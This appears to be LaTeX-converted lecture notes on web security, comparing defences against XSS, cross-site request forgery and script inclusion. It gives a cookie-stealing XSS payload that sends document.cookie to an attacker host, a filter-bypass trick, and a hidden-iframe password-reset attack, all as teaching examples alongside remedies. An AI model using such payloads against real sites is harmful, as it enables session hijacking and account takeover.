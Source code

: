  Summarizing:

\begin{tabular}{p{0.15\linewidth}p{0.17\linewidth}p{0.13\linewidth}p{0.4\linewidth}}
Output encoding & Input validation & Security token & Other prevention mechanisms \\
\hline
\hline
\multicolumn{4}{l}{\textbf{Cross-Site Scripting (XSS)}} \\
\hline
Yes & Yes & No & Don't expect user input to be valid \& sanitized \\
\multicolumn{4}{l}{\textbf{Cross-Site Request Forgery (XSRF)}} \\
\hline
No & (Yes) & Yes & Ask for old password/CAPTCHA. Check HTTP REFERER \\
\multicolumn{4}{l}{\textbf{Cross-Site Script Inclusion (XSSI): direct sourcing}} \\
\hline
No & No & No & Don't ever include untrusted code. Serve code from your own website after checking it. \\
\multicolumn{4}{l}{\textbf{Cross-Site Script Inclusion (XSSI): call-back}} \\
\hline
No & No & Yes & Restrict requests to HTTP POST. Check HTTP REFERER \\
\end{tabular}

 {\tt javascript} stripped from any text, but not {\tt java[enter]script}

 {\tt Sillyshop.xyz} has a XSS flaw that embeds URL in {\tt prod\_id}

http://www.sillyshop.xyz/showproduct.asp?prod\_id=7\\
$<$script$>$￼document.write('$<$img\%20src=\\
"http://www.attacker.xyz/capture.php?cookie=',\\
escape(document.cookie),'"$>$')$<$/script$>$

Malicious actions: get victim‘s cookie and alter orders, purchase with his credit card, reset account pwd, etc.

 HttpOnly cookies, can‘t be read by client script, not widely supported ￼￼parameter in webpage

 A form from one domain posts a request to a different domain through an authenticated session. Website {\tt attacker.tld} uses a form in a hidden {\tt iframe} to automatically post a new password to a web service, where the victim is currently logged in. \textit{Write-only attack.}\\
\textit{Remedy:} Use a hidden security token, ask for old password, captcha, http referer headers

 Information leakage via callback/dynamic script. Prevent with security token, restriction of requests to HTTP POST, check HTTP REFERER